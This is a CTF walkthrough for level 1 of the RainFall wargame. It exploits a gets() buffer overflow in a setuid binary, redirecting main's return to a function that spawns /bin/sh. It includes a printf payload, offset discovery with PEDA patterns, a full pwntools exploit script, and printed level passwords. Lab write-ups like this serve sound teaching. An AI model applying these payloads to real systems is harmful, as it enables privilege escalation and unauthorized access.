


# Level 1

## Introduction

This is an alternative solution that serves as an introtuction to `PEDA` and `pwntools`.
- `PEDA` is an extension to GDB which colorizes and add information
- `pwntools` is a CTF framework and exploit development library

We will first interact with the binary using `PEDA` and then discover how to use `pwntools`

## Setup
We find a binary file at the root of the user **`level1`** named *`./level1`*.

We run
```bash
git clone https://github.com/longld/peda.git /etc/peda
```
and
```bash
pip3 install pwntools
```

To analyze the binary file we copy peda in the vm with `scp` *(OpenSSH secure file copy)*.
```bash
scp -r -P 4243 /tmp/peda level1@localhost:/tmp
```

### PEDA

We start an ssh connection
```bash
ssh -p 4243 level1@localhost
```

And after using /home/user/level1/.pass as the password, we open GDB on /home/user/level1/level1.
In order to use `PEDA` we have to manually change the source in gdb to peda.py that we copied.
```bash
> gdb /home/user/level1/level1
(gdb)> source /tmp/peda/peda.py
```

## Binary Analysis

### Main function

On the `PEDA` prompt we need to run a couple of commands to analyze the binary.
In order to develop an exploit, we want to understand the behaviour of the program.

We start by looking at the `main` function.


We notice 2 interesting things:
- the program uses `gets()` function, which is known to be prone to buffer overflow
- the program seems to do nothing else

In this context, we know we can use a buffer overflow. By writing past the size of the buffer in which `gets()` writes, we will overwrite the memory used to store the address of the next instruction after the return of the function `main`.

*Smashing The Stack For Fun And Profit* contains wonderful explanations on how the stack works.

Before trying to copy *Smashing The Stack For Fun And Profit*, we run `info functions` in gdb.

### Run function


From all of the symbols listed, `main` and `run` are the only functions writen in the code. All other functions are either imported from a library or functions added by the compiler like `frame_dummy` (feel free to read more about it, this is out of the scope of this walkthrough).

We will run a few commands to analyse the `run()` function
```bash
pdisas run
x/1s 0x8048570
x/1s 0x8048584
```


Let me explain.
First, we disassemble `run` with `pdisas` (colored version of `disas` => alias to `disassemble`).
We notice a call to the function `fwrite()`.

When looking at the `man` for the function, we know its first argument is the address of the string to write, and thus the element in `eax` when the function is called.

We see that `eax` contains an addresse, so we will use gdb `x` command to examine the data at this address (0x8048570). We specify that it is one string with `/1s` and we get "Good... Wait what?\n", not very useful.

The same logic for `system` leads us to read the address in `esp`, where we get `"/bin/sh"`.

We know that `run()` prints on stdout and then calls a shell.

### Source

The equivalent program in C would be:
```C
#include <stdio.h>
#include <stdlib.h>

void run() {
    FILE *stdout_ptr = stdout;

    // Print the message "Good... Wait what?\n" to the standard output
    fwrite("Good... Wait what?\n", sizeof(char), 17, stdout_ptr);

    // Execute the "/bin/sh" shell command
    system("/bin/sh");
}

int main(int argc, const char **argv, const char **envp)
{
    char buffer[??]; // Buffer to hold user input
    
    gets(buffer); // Reading input from the user

    return 0;
}
```

### Permissions
As we can see in the permissions of the executable file, the binary `./level1` is executed with the privileges of the user **level2**, the owner of the file.
```bash
level1@RainFall:~$ ls -l level1 
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

## Exploit

We now know:
- the binary has user **level2** privileges
- the function `run()` calls `system("/bin/sh")`
- the function `main()` is vulnerable to buffer overflow

Our objective is to insert as a return address for the `main()` function, the address of the first instruction in `run()`.

### First Solution

The string version of the address `0x08048444` has to be in little endian.
It gives `"\x44\x84\x04\x08"`.

We will try to overwrite the `ret` which is after the `frame pointer`, both placed after the buffer in the memory (wonderful explanations in *Smashing The Stack For Fun And Profit*).

A naive implementation could be:
```bash
$ ( printf "\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\n" ; cat ) | ./level1
Good... Wait what?
```

We are lucky, it worked. One of the addresses ended up as the return address of the `main()` function.
We can print the flag.
```bash
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

<details>
<summary>Why weird `cat` in the command-line?</summary>
<br>
Because we ran the program with the input coming from a pipeline, the input is redirected to the `stdin` of the program. So, when the program calls for `system("/bin/sh")`, it immediately executes the shell without waiting for further input, and all it finds on the `stdin` is `EOF` so it closes the shell.
To work around this issue we can keep the `stdin` open with the call to `cat`.
</details>

### Best Solution

Back to `PEDA`, we will use 2 commands:
- `pattern create`
- `pattern offset`

Before, we filled the buffer, and more, with an arbitrary number of our target address.
But say we want the offset between the begining of our buffer and the return address in the memory.
What we can do is:
- generate a long string with no similar subsequence of 4 characters `pattern create` [De Bruijn sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence)
- put it in the buffer
- look at the address called at program failure (it will be a sequence of 4 characters of the string)
- look at where in our string the subsequence appears
- count the number of characters before it `pattern offset`





With the following pattern, `AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL` the programs tries to execute the instructions at `0x41344141` or `"A4AA"`, which we find in the string only once.

We now know that the return address is 76 char after the start of the buffer.

We can use `pwntools`, and write an `exploit.py` script.

```python
from pwn import *

HOST = 'localhost'
PORT = 4243
# current level
USER = 'level1'
# pass for current level (in /home/user/{USER}/.pass)
PASS = '1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a'

def main():
    # creates a new ssh connection https://docs.pwntools.com/en/latest/tubes/ssh.html
    connection = ssh(host=HOST, port=PORT, user=USER, password=PASS)

    # requires python on remote server
    # binds to the binary /home/user/level1/level1
    process = connection.process(f'/home/user/{USER}/{USER}')

    # We know the offset is 76 from gdb exploration
    # We got 0x08048444 as the address of the first instruction of 'run'
    # The payload has to be 76 random char followed by the little endian form of the address
    payload = b'.'*76 + b'\x44\x84\x04\x08'

    process.sendline(payload)

    # Print the vm's stdout until first shell input
    print(process.recvuntil(b'$ '))

    process.sendline(b'cat /home/user/level2/.pass')
    # Print the flag
    print(process.recv())

main()
```

We will get the flag with
```bash
python3 exploit.py
```
